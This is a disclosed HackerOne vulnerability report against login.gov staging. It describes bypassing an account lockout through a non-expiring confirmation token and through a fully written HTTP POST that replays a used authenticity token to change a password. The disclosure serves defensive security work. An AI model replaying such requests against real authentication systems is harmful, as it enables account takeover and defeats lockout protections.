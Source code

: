 # 2FA bypass - confirmation tokens don't expire

## Report Details
- **Report ID**: 264090
- **URL**: https://hackerone.com/reports/264090
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-08-28T16:40:36.583Z
- **Disclosed**: 2017-11-17T18:14:48.684Z

## Reporter
- **Username**: muskecan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
Hi there,

Because of the limitation of the site, accounts may be locked down for 10 minutes. I found 2 ways to bypass this lock period.

First one with the confirmation mail that we get when we sign on. 

If we get the token this way below, we can change account password and bypass the lock period at once.

https://idp.staging.login.gov/sign_up/enter_password?confirmation_token=XXXXXX

*XXXXXX= Confirmation token of your account.

Second one is with a POST request below.

POST /manage/password HTTP/1.1
Host: staging.login.gov
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 219
Referer: https://staging.login.gov/manage/password
Cookie: AWSALB=KkPbvp72NJDrfqzjC97hdllLC4+QMrw8qZXTGzNevDGz3y9nFRrtIyjghxsefOUKkaG2BJX5yhTOY71u+rgMVk5IDaL8G/90affS6zBZBbAOEqqGSp7fYSALOOEL; ahoy_visitor=345467de-0fb9-4154-af8f-329ba5d72408; ahoy_visit=62bcef39-2994-4866-92c8-d21895411c10; ahoy_track=true; _upaya_session=1b94772c05e0dbad70348c3db1f3ccf8; _ga=GA1.2.1438978135.1503936076; _gid=GA1.2.1732157595.1503936076; _ga=GA1.3.1438978135.1503936076; _gid=GA1.3.1732157595.1503936076
Connection: close
Upgrade-Insecure-Requests: 1

utf8=%E2%9C%93&_method=patch&authenticity_token=bGs%2FBZHewYdpRsyPIe108KMc2sR1mK9SL1bbi0X%2F9IYZDJ%2Bh3SpUN79l84qk%2FXZS1%2Fx6Nd9VBVR%2BNCR2a95NZQ%3D%3D&update_user_password_form%5Bpassword%5D=test_?123%2B&commit=Update

If we get an used authenticity_token, we can still change the password and bypass the lock period at once.

King Regards.


## Attachments
- password_change.png
